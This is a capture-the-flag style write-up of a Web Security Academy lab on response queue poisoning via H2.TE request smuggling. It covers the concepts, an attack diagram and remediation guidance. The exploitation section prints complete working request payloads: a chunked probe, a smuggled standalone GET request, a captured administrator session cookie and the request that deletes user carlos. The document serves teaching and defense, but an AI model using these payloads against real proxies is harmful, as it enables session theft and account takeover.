









## Challenge Overview
* **Challenge name**: Response queue poisoning via H2.TE request smuggling
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

---

## 1. Fundamental Concepts

Response queue poisoning represents an advanced and devastating evolution of HTTP request smuggling. While classic request smuggling attacks tamper with the request stream to alter downstream request execution, response queue poisoning desynchronizes the transport-layer response mapping between front-end reverse proxies and back-end application servers. This architectural desynchronization causes the front-end proxy to serve arbitrary responses intended for one user directly to completely unrelated third-party users.

### 1.1. HTTP/2 Framing Architecture and Protocol Downgrading
* **Binary Framing Model:** Unlike HTTP/1.1, where message boundaries depend entirely on string delimiters and header fields (`Content-Length` or `Transfer-Encoding: chunked`), HTTP/2 enforces strict binary framing. Every stream is divided into discrete frames with unambiguous, 24-bit frame length headers. Length ambiguity is fundamentally impossible within pure HTTP/2 communications.
* **Protocol Downgrading Semantic Gap:** To preserve legacy compatibility with internal application tiers without requiring complete infrastructure modernization, modern edge reverse proxies terminate external HTTP/2 connections and translate ("downgrade") incoming requests into HTTP/1.1 cleartext streams destined for back-end application servers.
* **The H2.TE Mechanism:** Under RFC 7540 Section 8.1.2.2, hop-by-hop headers such as `Transfer-Encoding` and `Connection` are prohibited in HTTP/2 requests. Because HTTP/2 framing determines body boundaries via DATA frames, front-end proxies frequently ignore the `Transfer-Encoding` header rather than stripping it. When translating the request to HTTP/1.1, the proxy injects this unvalidated header directly into the upstream HTTP/1.1 byte stream, creating an H2.TE vulnerability.

### 1.2. The Mechanics of Response Queue Poisoning
* **FIFO Response Queueing:** In HTTP/1.1 persistent connections (Keep-Alive pipelines), requests and responses lack explicit stream identifiers. The front-end proxy matches incoming responses to outbound requests using a strict First-In, First-Out (FIFO) queue: the first response received on a shared TCP socket is routed to the client that issued the first request on that socket.
* **Complete Request Smuggling:** In classic request smuggling (e.g., prefix smuggling), an attacker injects an incomplete request snippet that prepends to the subsequent victim's request line. In contrast, response queue poisoning requires smuggling a complete, standalone HTTP/1.1 request (terminated by dual CRLF: `\r\n\r\n`).
* **Off-by-One Desynchronization:** Because the smuggled request is syntactically complete, the back-end processes two distinct requests and emits two separate HTTP responses. However, the front-end proxy only dispatched a single HTTP/2 request and expects exactly one response. The first response is returned to the attacker, while the unexpected second response remains queued in the socket buffer.
* **Response Hijacking:** When a subsequent user (such as an administrator) dispatches a request over that shared socket, the front-end instantly forwards the leftover response from the queue to that user. The administrator's authentic response (containing sensitive tokens) is then pushed into the queue, allowing the attacker to capture it via any subsequent request.

> [!IMPORTANT]
> **CRITICAL DISTINCTION:** Classic request smuggling poisons the REQUEST stream by prepending malicious bytes into incoming transactions. Response queue poisoning poisons the RESPONSE queue by inducing an off-by-one misalignment in the FIFO response pipeline, completely breaking tenant isolation across shared TCP sockets.

---

## 2. Attack Model & Architecture

The attack model illustrates how an attacker exploits H2.TE downgrading to smuggle an isolated, complete request to the back-end. This creates an unconsumed response in the front-end's TCP socket queue, systematically shifting response delivery for subsequent transactions.

```text
[Attacker]
    │
    │ (1) Dispatches Malicious HTTP/2 Request
    │     - Outer: POST /x HTTP/2 (DATA frame length defines body)
    │     - Header: Transfer-Encoding: chunked
    │     - Body: 0\r\n\r\nGET /x HTTP/1.1\r\nHost: target.net\r\n\r\n
    ▼
[Front-end Proxy] (Reads entire payload via HTTP/2 DATA frame length)
    │ Downgrades request to HTTP/1.1; fails to strip 'Transfer-Encoding' header
    │ Forwards cleartext byte stream over persistent TCP connection to Back-end
    ▼
[Back-end Application Server] (Parses upstream stream using Transfer-Encoding: chunked)
    │ - Reads terminating chunk '0\r\n\r\n' -> Completes Request 1 (POST /x)
    │ - Reads next complete request -> Completes Request 2 (GET /x)
    │ Emits TWO distinct responses onto the shared TCP socket:
    │   Response 1: HTTP/1.1 404 Not Found (for POST /x)
    │   Response 2: HTTP/1.1 404 Not Found (for GET /x)
    ▼
[Front-end Proxy Receives Responses]
    │ - Matches Response 1 to Attacker's HTTP/2 request -> Returned to Attacker
    │ - Receives unexpected Response 2 -> Stores in socket's FIFO Response Queue!
    ▼
[Victim Administrator Logs In]
    │ (2) Administrator dispatches authentic login request:
    │     POST /login HTTP/1.1 (Credentials transmitted)
    ▼
[Front-end Misroutes Queued Response]
    │ - Front-end forwards Admin request to Back-end
    │ - Front-end immediately pulls head of Response Queue (Response 2: 404 Not Found)
    │ - Serves Response 2 to Administrator! (Admin receives unexpected 404 error)
    │ - Back-end executes login -> Emits Response 3: HTTP 302 Found (Set-Cookie: session=ADMIN_TOKEN)
    │ - Response 3 is pushed into socket Response Queue!
    ▼
[Attacker Dispatches Follow-Up Request]
    │ (3) Attacker sends arbitrary follow-up request (GET /x)
    │ - Front-end pulls head of Response Queue (Response 3: Admin 302 Redirect + Set-Cookie)
    │ - Serves Administrator's response directly to Attacker!
    │ - Attacker extracts administrative session cookie -> Full Account Takeover!
```

### 2.1. Attack Lifecycle & Data Flow Breakdown
1. **Stage 1 - H2.TE Injection & Downgrading:** The attacker establishes an HTTP/2 session and injects a `Transfer-Encoding: chunked` header. The front-end accepts the request based on DATA frame length but passes the chunked header downstream.
2. **Stage 2 - Back-end Desynchronization:** The back-end terminates the outer request upon reading chunk `0\r\n\r\n` and immediately parses the trailing bytes as a standalone `GET /x HTTP/1.1` request.
3. **Stage 3 - Response Queue Poisoning:** The back-end generates two responses. The front-end consumes Response 1 to satisfy the attacker's request and enqueues Response 2 into the socket buffer.
4. **Stage 4 - Victim Misdirection:** An administrator submits an authentication request over the multiplexed connection. The front-end serves the queued 404 response to the administrator, while the administrator's genuine 302 redirect response (with session cookie) enters the queue.
5. **Stage 5 - Response Capture & Privilege Escalation:** The attacker transmits a probe request, and the front-end pulls the administrator's response from the queue, delivering the sensitive administrative session cookie to the attacker.

### 2.2. Architectural Requirements for Standalone Smuggled Requests
* **Method Selection (`GET`):** A complete request requires no message body. Once the parser encounters `\r\n\r\n`, the request is finalized immediately without consuming bytes from subsequent requests.
* **Protocol Specification (`HTTP/1.1`):** The back-end parser operates strictly in HTTP/1.1 text mode. Injecting `HTTP/2` in the request line causes version incompatibility errors (HTTP 505) and socket termination.
* **Mandatory Host Header:** Under RFC 7230 Section 5.4, all HTTP/1.1 requests require a valid Host header. Omitting Host causes an immediate `HTTP 400 Bad Request` accompanied by `Connection: close`, which destroys the response queue.
* **Dual CRLF Termination:** The dual carriage-return line-feed (`\r\n\r\n`) signals the absolute conclusion of the HTTP/1.1 header block, isolating the request from subsequent TCP stream data.

### 2.3. Root Causes
* **Unhygienic Protocol Downgrading:** The front-end proxy fails to strip hop-by-hop headers (`Transfer-Encoding`) when downgrading HTTP/2 requests to HTTP/1.1 streams.
* **Unrestricted TCP Connection Reuse:** The architecture multiplexes requests from separate, untrusted client sessions across shared persistent TCP connections to upstream application servers.
* **Absence of Response Stream Integrity Checks:** The reverse proxy lacks validation to detect extraneous responses arriving on backend keep-alive sockets.

---

## 3. Vulnerability Exploitation

The vulnerability was systematically verified, calibrated, and weaponized using Burp Suite Repeater through an empirical multi-stage process.

### 3.1. Establishing HTTP/2 Baseline Communication
A baseline request was captured in Burp Suite Repeater (`GET / HTTP/2`). The request was configured to utilize HTTP/2 protocol negotiation via the Inspector panel. The server responded with `HTTP/2 200 OK`, establishing that the edge proxy actively supports HTTP/2:



### 3.2. Probing HTTP/1.1 Direct Transport Rejection
To confirm that the vulnerability is specifically tied to HTTP/2 protocol downgrading, a classic request smuggling probe was transmitted directly over HTTP/1.1 with both `Content-Length: 12` and `Transfer-Encoding: chunked`:

```http
POST / HTTP/1.1\r\n
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 12\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
G
```

The front-end proxy immediately rejected the request with `HTTP/1.1 400 Bad Request` and terminated the connection (`Connection: close`):

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 67

{
  "error":"Both chunked encoding and content-length were specified"
}
```

This empirical result decisively proves that the front-end enforces strict validation on native HTTP/1.1 requests, confirming that exploitation requires an HTTP/2 downgrading vector:



### 3.3. Verifying H2.TE Desynchronization via HTTP/2
The request protocol in Burp Repeater was switched to HTTP/2. The same ambiguous payload was transmitted with `Transfer-Encoding: chunked` and a body containing `1\r\nA\r\n0\r\n\r\nG`:

```http
POST / HTTP/2
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Transfer-Encoding: chunked

1
A
0

G
```

Unlike the HTTP/1.1 attempt, the front-end proxy accepted the HTTP/2 frame and returned `HTTP/2 200 OK`:



An immediate follow-up request was dispatched over the same connection. The back-end executed `GPOST / HTTP/1.1` and returned `HTTP/2 404 Not Found` (`"Not Found"`):



### 3.4. Crafting the Complete Request Payload & Poisoning the Queue
With H2.TE confirmed, a payload was constructed to smuggle a complete, standalone `GET /x HTTP/1.1` request. Using `/x` ensures that all self-generated responses yield `404 Not Found`, making any captured administrative responses immediately distinct:

```http
POST /x HTTP/2
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net

```

> [!NOTE]
> The smuggled request concludes with two trailing newlines (`\r\n\r\n`) after the Host header. This ensures the request is completely isolated and does not absorb subsequent traffic.

Transmitting the payload returned `HTTP/2 404 Not Found` for the outer request, leaving the response for `GET /x` primed at the head of the socket's response queue:



### 3.5. Capturing Administrator Session Cookie
A follow-up request was dispatched after a 5-second interval to synchronize with the simulated victim's periodic 15-second login cycle. The front-end pulled the head of the response queue and returned the administrator's genuine post-login response:

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=6qvttkNVV9aaukk1A8317HRUqYTA6dK2; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

The response revealed an HTTP 302 redirection to `/my-account?id=administrator` and leaked the active administrative session token: `6qvttkNVV9aaukk1A8317HRUqYTA6dK2`:



### 3.6. Administrative Access & Account Deletion
With the stolen administrative session cookie, a request was dispatched to `GET /admin HTTP/2`:

```http
GET /admin HTTP/2
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net
Cookie: session=6qvttkNVV9aaukk1A8317HRUqYTA6dK2
```

The application returned `HTTP/2 200 OK`, rendering the administrative control panel and exposing user deletion endpoints:



An administrative deletion request was issued to eliminate target user `carlos`:

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0aab00c804d0f212800d99d4000200e2.web-security-academy.net
Cookie: session=6qvttkNVV9aaukk1A8317HRUqYTA6dK2
```

The server processed the deletion and issued an `HTTP/2 302 Found` redirecting back to `/admin`:



The confirmation banner was verified, marking the lab as successfully solved:



---

## 4. Remediation & Prevention

Remediating response queue poisoning and H2.TE request smuggling requires synchronized countermeasures across the reverse proxy translation layer and internal connection pooling architectures.

### 4.1. End-to-End HTTP/2 Implementation
* **Native Binary Framing:** Eliminate protocol translation entirely by deploying HTTP/2 or HTTP/3 consistently across edge proxies and upstream application servers. Maintaining end-to-end binary framing prevents length header ambiguity and eliminates HTTP/1 parsing discrepancies.
* **Strict Hop-by-Hop Sanitization:** If upstream application servers do not support HTTP/2, ensure the proxy sanitizes all hop-by-hop headers prior to generating HTTP/1.1 requests.

### 4.2. Reverse Proxy Hardening & Header Sanitization
* **Sanitize Downgraded Headers:** Reverse proxies must strictly enforce RFC 7540 rules. Any incoming HTTP/2 request containing `Transfer-Encoding`, `Connection`, or `Keep-Alive` headers must either be rejected immediately with an HTTP 400 Bad Request or stripped completely before downstream forwarding.
* **Framing Consistency Validation:** Proxies should validate that the message length indicated by the HTTP/2 DATA frames strictly matches any downstream Content-Length header, terminating connections that exhibit framing anomalies.

### 4.3. Upstream Connection Pool Isolation & Integrity
* **Connection Pool Isolation:** Never multiplex requests from different client IP addresses, TLS sessions, or user identities over the same persistent TCP socket. Establishing dedicated backend connection pools per client prevents cross-tenant response poisoning.
* **Response Stream Desync Detection:** Reverse proxies must monitor backend response streams. If an unexpected response arrives on a socket when no matching request is pending, the proxy must immediately terminate the TCP connection and discard all buffered responses.

### 4.4. Defense-in-Depth Session Hardening
* **Session Binding:** Bind administrative session cookies to client TLS parameters, device fingerprints, or strict IP ranges. If an attacker captures a session token via response queue poisoning, transport-layer discrepancies will prevent unauthorized session reuse.
* **Re-Authentication Controls:** Enforce rapid session token rotation and require re-authentication for sensitive actions such as user deletion or privilege escalation.
